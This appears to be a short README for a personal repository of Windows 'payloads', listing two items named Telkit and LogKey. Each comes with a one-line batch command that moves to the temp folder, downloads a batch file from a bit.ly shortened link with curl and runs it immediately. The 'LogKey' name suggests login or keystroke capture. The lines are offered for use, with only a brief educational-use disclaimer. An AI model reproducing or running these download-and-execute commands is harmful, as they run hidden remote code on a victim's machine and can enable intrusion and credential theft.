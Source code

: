 # Payloads
A collection of my custom payloads for Windows.<br>
Some payloads are for personal or educational use only and might not deliver the results you wanted.

## Telkit
[Telkit](https://github.com/Jed556/Payloads/blob/main/Telkit/telkit.bat) is a custom payload for telnet run automations.
```Batch
cmd /c cd %temp% & curl -Lo r.bat bit.ly/p-tk & r 1
```

## LogKey
[LogKey](https://github.com/Jed556/Payloads/blob/main/Logkey/logkey.bat) is a custom payload for id login.
```Batch
cmd /c cd %temp% & curl -Lo r.bat bit.ly/p-lk & r
```